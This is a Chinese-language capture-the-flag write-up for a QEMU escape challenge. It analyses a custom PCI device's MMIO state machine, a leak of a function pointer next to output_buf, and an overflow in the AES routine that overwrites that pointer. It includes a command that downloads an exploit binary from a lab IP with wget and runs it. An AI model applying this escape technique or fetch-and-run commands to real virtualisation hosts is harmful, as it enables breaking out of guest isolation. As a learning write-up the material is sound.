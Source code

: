 # QWCT
qemu escape

## device

with qwb
```bash
# lspci
00:00.0 Class 0600: 8086:1237
00:01.3 Class 0680: 8086:7113
00:03.0 Class 0200: 8086:100e
00:01.1 Class 0101: 8086:7010
00:02.0 Class 0300: 1234:1111
00:01.0 Class 0601: 8086:7000
00:04.0 Class 00ff: 1234:8848
```

## knowledge
`edu.c`改的`mmio`

涉及的数据结构：
```C
struct QwbState
{
  PCIDevice_0 pdev;
  MemoryRegion_0 mmio;
  QemuThread_0 thread;
  QemuMutex_0 crypto_statu_mutex;
  QemuMutex_0 crypto_buf_mutex;
  crypto_status crypto;
};
```
其中`crypto`
```C
struct crypto_status
{
  __uint64_t statu;
  __u_char crypt_key[2048];
  __u_char input_buf[2048];
  __u_char output_buf[2048];
  _Bool (*encrypt_function)(__u_char *, __u_char *, __u_char *);
  _Bool (*decrypt_function)(__u_char *, __u_char *, __u_char *);
};
```

## 逻辑
分`read`和`write`
### read
- 0 init (status 5非法) ->0
- 1 set status 0->3, 2->3
- 2 set status 0->1, 4->1
- 3 set status 3->4
- 4 set status 1->2
- 5 set aes_encrypt_function(status 2)
- 6 set aes_decrypto_function(status 2)
- 7 同 5
- 8 同 6
- 9 enc(status 2) 2->5 6
- A dec(status 2) 2->7 8
- default

### write
- addr 0,0x1800 (status 3)
- addr 18000, 28000 (status 1)

## leak
可以看到`output_buf`和`encrypt_function`是靠在一起的，

读`output`的时候，对地址进行判断
```C
v18 = strlen((const char *)opaque->crypto.output_buf);
v19 = v17 == 1;
v20 = v17 == 1;
if ( addr < v18 + 0x3000 && v19 )
```
所以填满`output_buf`，采用`stream`加密即可

## vuln
在`aes_encrypt_function`中
```C
    while ( v18 != v5 );
    // 省略
  {
    v25 = 0LL;
  }
  *(_QWORD *)&o_v4[v7] = v25;
  return 1;
```
最后会在`output_buf`输出末尾加上`qword`，如果`output_buf`满的，那么就可以写`qwb->encrypt_function`指针

tips: `status`为0的时候不会清楚`encrypt`和`decrypt`函数指针。


```bash
rm exp_io
wget http://177.168.76.2:8000/exp_io
chmod +x exp_io
./exp_io

b qwb_mmio_read
```
其在`aes`加密之后，还8字节的进行异或，这里需要一定的计算
![](images/now.jpg)

```gdb
b aes_encrypt_function

8bytes = [8bytes list] ^ [8bytes list] ....
output_buf append 8bytes
```
![](images/over_pointer.jpg)

## exp



![](images/success.png)
